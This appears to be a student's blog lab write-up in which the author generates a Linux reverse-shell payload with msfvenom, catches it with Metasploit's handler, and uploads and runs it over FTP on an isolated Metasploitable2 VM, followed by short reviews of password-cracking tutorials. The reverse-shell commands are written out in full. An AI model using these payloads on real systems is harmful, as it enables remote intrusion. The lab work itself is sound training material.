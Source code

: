 Target: Metasploitable2 virtual machine / 10.10.10.11

Host: Kali virtual machine / 10.10.10.10

I double check my virtual machines can't connect to internet. They are using a bridge that has no actual interfaces to use so they can only communicate with each other. On my the kali machine I open port 4444/tcp temporarily to use for testing by `ufw allow 4444/tcp`.

After the setup I start with msfvenom. I found good examples from [OffSec](https://www.offsec.com/metasploit-unleashed/msfvenom/) and made modifications to fit my needs.

`-a x86` to specify the target architecture.
`--platform linux` to specify the target platform.
`-p linux/x86/reverse_shell_tcp` to specify the payload.
`LHOST=10.10.10.10` and `LPORT=4444` to connect to our host.
`-e generic/none` skips encoding.
`-f elf` to format the output as .elf. I tried other formats like python and bash but couldn't get them to run properly.
`> reverse_shell.elf` lastly saves the output to a file.

`msfvenom -a x86 --platform linux -p linux/x86/reverse_shell_tcp LHOST=10.10.10.10 LPORT=4444 -e generic/none -f elf > reverse_shell.elf`

Then I use `msfconsole` to start a listening session `use exploit/multi/handler`. Then I set all the needed info `set LHOST 10.10.10.10`, `set LPORT 4444` and `set payload linux/x86/shell_reverse_tcp`.
I start the session with `exploit`.

After which I use ftp to login to the target and transfer the file:
`ftp msfadmin@10.10.10.11` and `put reverse_shell.elf`

On the target machine, I make the file executable `chmod a+x reverse_shell.elf`. Then I run the file `./reverse_shell.elf`

After which we get a connection on our host machine:

![Reverse shell](/tuukkaani-blog/img/h5/msfvenom.png)

Lastly I close the opened 4444 `sudo ufw deny 4444/tcp`.

[(OffSec.)](https://www.offsec.com/metasploit-unleashed/msfvenom/)

---

### x) Additional reading

#### Cracking passwords with hashcat

- Very straight forward and quickly gives all the necessary info on using hashcat.

- Possible addition could be instead of using a premade hash, it could instruct the user to create a md5 hash from a common password (benstiller for example). And then go on as it is currently, after which the user could be asked to check out other formats like SHA etc.

[(Tero Karvinen 2022.)](https://terokarvinen.com/2022/cracking-passwords-with-hashcat/.)
#### Crack file passwords with john
